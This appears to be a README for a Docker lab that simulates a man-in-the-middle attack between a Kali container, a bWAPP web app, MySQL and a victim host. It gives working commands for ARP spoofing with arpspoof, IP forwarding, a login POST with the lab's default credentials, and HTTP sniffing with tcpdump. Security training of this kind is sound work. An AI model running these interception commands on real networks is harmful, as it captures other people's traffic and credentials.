




---

### ✅ Objective

Simulate a **MitM attack** — for example, **ARP spoofing**, **HTTP sniffing**, or **DNS spoofing** — from the **Kali** container targeting traffic between `bwa` and `mysql`, or between `victim` and others.

---


## Why Use Docker for MITM Simulations?

Docker provides an ideal environment for simulating man-in-the-middle (MITM) attacks because it allows you to quickly create isolated, reproducible, and controlled network setups. By running multiple containers connected to a private Docker network, you can mimic real-world network interactions safely without risking your host system. Docker’s ability to assign static IPs and isolate network traffic makes it perfect for practicing ARP spoofing, HTTP sniffing, and other MITM techniques in a contained lab environment.

```pgsql
+-------------------------+      +--------------------+       +---------------------+
|    victim (172.28.0.30)  | <--> | kali (172.28.0.20)  | <--> |  bwa (172.28.0.10)   |
|    Debian container      |      | Kali Linux container|     |  bWAPP app container |
+-------------------------+      +--------------------+       +---------------------+
                                             |
                                             |
                                    +-------------------+
                                    |  mysql (172.28.0.5)  |
                                    |  MySQL DB container  |
                                    +-------------------+

- All containers connected via the 'mitm-net' Docker bridge network (subnet 172.28.0.0/24)
- Kali acts as MITM between victim and bwa/mysql
- Kali performs ARP spoofing to intercept traffic between victim and bwa/mysql


```
## 🛠️ Step-by-Step Guide

### 1. ✅ Start the Environment

Run the following in the same directory as your `docker-compose.yml`:

```bash
docker-compose up -d
```



---

### 2. ✅ Enter the Kali Container

```bash
docker exec -it kali bash
```


```bash
apt update
apt install -y dsniff tcpdump iproute2 iputils-ping net-tools
```

---

### 3. ✅ Enable IP Forwarding

Inside Kali:

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```


---

### 4. ✅ Perform ARP Spoofing


In Kali:

```bash
arpspoof -i eth0 -t 172.28.0.10 172.28.0.5
```

In another Kali terminal (or tmux pane):

```bash
arpspoof -i eth0 -t 172.28.0.5 172.28.0.10
```

Now you’re acting as the man in the middle.

---
### 5. ✅ RUn curl from the victim 

```bash

curl -d "login=bee&password=bug&security_level=0&form=submit" http://172.28.0.10/login.php    
```


### 6. ✅ Sniff the Traffic

Still in Kali, use `tcpdump` to monitor traffic:

```bash
tcpdump -i eth0 -A port 80        # HTTP traffic from bWAPP
```



---

